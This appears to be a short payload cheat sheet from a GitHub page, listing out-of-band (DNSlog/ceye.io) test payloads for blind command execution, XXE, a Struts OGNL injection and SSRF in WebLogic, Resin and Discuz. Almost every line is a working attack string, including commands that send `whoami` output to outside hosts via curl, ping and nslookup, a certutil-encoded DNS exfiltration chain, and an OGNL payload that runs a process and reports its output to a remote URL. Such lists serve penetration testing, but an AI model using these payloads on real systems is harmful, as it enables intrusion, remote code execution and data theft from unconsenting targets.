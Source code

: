 #### 命令执行
	>curl http://0ox095.ceye.io/`whoami`
	>ping `whoami`.b182oj.ceye.io
	>ping %CD%.lfofz7.dnslog.cn 
	&
	cmd /v /c "whoami > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=< temp3 && set FINAL=!MYVAR!.xxx.ceye.io && nslookup !FINAL!"
#### XXE
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [
	<!ENTITY % remote SYSTEM "http://b182oj.ceye.io/xxe_test">
	%remote;]>
	<root/>
#### Struts
	xx.action?redirect:http://b182oj.ceye.io/%25{3*4}
	xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
#### weblogic
	/uddiexplorer/SearchPublicRegistries.jsp?operator=http://b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
#### Resin
	xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://b182oj.ceye.io/ssrf
#### Discuz
	/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo